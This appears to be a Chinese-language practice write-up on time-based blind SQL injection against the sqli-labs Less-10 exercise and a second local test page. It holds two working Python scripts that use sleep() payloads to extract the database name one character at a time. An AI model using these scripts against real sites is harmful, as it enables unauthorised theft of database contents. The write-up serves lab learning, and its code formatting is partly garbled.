

words = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_-{}, "
deftarget_length(): length = 0 for i inrange(1, 15): url = "http://127.0.0.1/sqli/Less-10/?id=1\" and if(length(database())=%d,sleep(2),0)" %(i) url = url+'%23' print(url) #可输出测试是否写错 start_time = time.time()#请求开始的时间 requests.get(url) end_time = time.time()#请求结束的时间 t = end_time - start_time#时间差 if t >= 1: length = i break print("target_lenght is: ", length) deftarget_name(): name = '' for i inrange(1, 10): for j in words: #url = "http://127.0.0.1/sqli/Less-10/?id=1\" and if(ascii(substr(select group_concat(table_name) from information_schema.tables where table_schema=database(),%d,1)=ord('%s')),sleep(1),0) --+" %(i,j) url = "http://127.0.0.1/sqli/Less-10/?id=1\" and if(ascii(substr(database(),%d,1))=ord('%s'),sleep(2),0) --+" %(i,j) url = url+'%23' print(url) #可输出测试是否写错 start_time = time.time()#请求开始的时间 requests.get(url) end_time = time.time()#请求结束的时间 t = end_time - start_time#时间差 if t >= 1: name += j break print("target_name is: "+ name)
#target_length() target_name()
可以得出，长度为 8，库名为 security

接下来就改改 url 就可以爆破其他值了。
通用 GET类型时间盲注 题目脚本小练习
import time import requests
key = 'Username: kevin' words = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-.{}' url = "http://127.0.0.1/SQLC/sql-2.php/SQl-4.php?id=1'"
deftarget_length(): length = 0 for i inrange(1,15): payload = " and if(length(database())={},sleep(2),0) %23".format(i) print(url + payload) #可输出测试是否写错 start = time.time() requests.get(url + payload) end = time.time() t = end - start if t >=1 : length = i break print("target_length is:", str(length))
deftarget_name(length): name = '' for i inrange(1,length+1): for j in words: payload = " and if(ascii(mid(database(),{},1))=ord('{}'),sleep(2),0) %23".format(i,j) print(url + payload) start = time.time() requests.get(url + payload) end = time.time() t = end - start if t >=1 : name += j break print("target_name is:", name)
#target_length() #结果为target_length is: 9 target_name(9) #参数填入上一步的结果